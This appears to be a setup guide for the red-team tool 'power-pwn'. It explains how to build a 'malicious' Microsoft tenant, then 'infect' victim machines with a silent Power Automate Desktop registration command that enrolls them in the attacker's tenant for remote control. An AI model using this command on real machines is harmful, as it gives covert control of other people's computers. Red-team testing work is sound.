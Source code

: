 # How to set up your power-pwn cloud account

### Set up a malicious Microsoft tenant

1. Set up your free Microsoft tenant by following [Microsoft guidelines](https://docs.microsoft.com/en-us/azure/active-directory/verifiable-credentials/how-to-create-a-free-developer-account)
   
   ![Pwntoso tenant](../assets/pwntoso.png)

2. Create a malicious user account and assign it a _Power platform administrator_ role. The admin role isn't necessary, it's just convenient.

   ![Power platform administrator role](../assets/power_platform_admin.png)

3. On a private browser tab

   1. Go to https://flow.microsoft.com and log in with the malicious user. Follow through the sign-in process to initiate a Power Automate trial license. 

   2. Follow the same process with https://make.powerapps.com to initiate a Power Apps trial license.

4. Create a Service Principal by following [Microsoft guidelines](https://docs.microsoft.com/en-us/power-automate/desktop-flows/machines-silent-registration#using-a-service-principal-account) and note the _tenantId_, _applicationId_ and _secret_. 

### Infect a test machine victim machines

1. To register a victim machine, run the following command

   `echo <secret> | C:\Program Files (x86)\Power Automate Desktop\PAD.MachineRegistration.Silent.exe -register -applicationid <applicationId> -tenantid <tenantId> -clientsecret -force`

2. That's it! For troubleshooting, refer to [Microsoft Docs](https://docs.microsoft.com/en-us/power-automate/desktop-flows/machines-silent-registration#silently-register-a-new-machine).

### Upload pwntoso to your Power Automate cloud environment

1. Log into https://flow.microsoft.com with the malicious user.

2. Go to _Solutions_ and click _Import solution_

   ![Import pwntoso solution](../assets/import_solution.png)

3. Zip the content of [pwntoso_1_0_0_1](../solution/pwntoso_1_0_0_1) and select it when asked to provide a solution file. Follow the guided process to completion.

4. Go to _My flows_ and search for _Endpoint_

   ![Endpoint flow](../assets/endpoint_flow.png)

   Click on _Edit_ and then on _When a HTTP request is received_ and copy the URL under _HTTP POST URL_

   ![HTTP Post URL](../assets/post_url.png)

